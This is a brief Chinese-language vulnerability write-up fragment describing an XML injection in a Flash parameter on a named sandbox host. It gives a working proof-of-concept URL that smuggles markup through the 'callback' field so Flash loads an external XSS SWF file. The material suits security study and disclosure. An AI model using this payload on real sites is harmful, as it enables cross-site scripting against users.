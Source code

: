 经过处理后的 XML 值为：

```
<object><property id="url"><string>./o.png</string></property><property id="url"><string>http://xsst.sinaapp.com/Xss.swf</string></property><property id="x"><string>pkav</string></property></object>

```

有两个 url，Flash 会认为最后一个 url 有效。这样就有了 POC：

```
http://sandbox.host.smartgslb.com/flash_5/?url=./o.png&callback=url"><string>http://xsst.sinaapp.com/Xss.swf</string></property><property id="x

```

over
----